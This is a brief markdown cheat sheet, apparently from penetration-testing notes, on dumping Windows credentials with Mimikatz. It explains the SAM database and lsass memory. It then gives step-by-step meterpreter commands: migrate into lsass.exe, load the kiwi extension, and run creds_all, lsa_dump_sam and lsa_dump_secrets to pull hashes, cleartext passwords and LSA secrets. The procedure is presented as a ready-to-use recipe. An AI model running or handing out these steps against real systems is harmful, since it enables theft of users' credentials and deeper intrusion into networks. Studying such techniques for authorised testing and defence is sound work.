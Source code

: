 # Dumping Hashes With Mimikatz

## Explanation

### Mimikatz

- Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.

- The SAM (Security Account Manager) database, is a database file on Windows systems stores hashed user passwords.

- Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached.

- We can utilize the pre-compiled mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi.

! Mimikatz will require elevated privileges in order to run correctly. !

## Technics

1. Migrate into lsass process : 
```
meterpreter > migrate -N lsass.exe
```

2. Load Kiwi module on Metasploit Framework : 
```
meterpreter > load kiwi
```

3. Dump all hash :
```
meterpreter > creds_all
```

4. Dump all windows users hashes :
```
meterpreter > lsa_dump_sam
```

5. Dump LSA secrets :
```
meterpreter > lsa_dump_secrets
```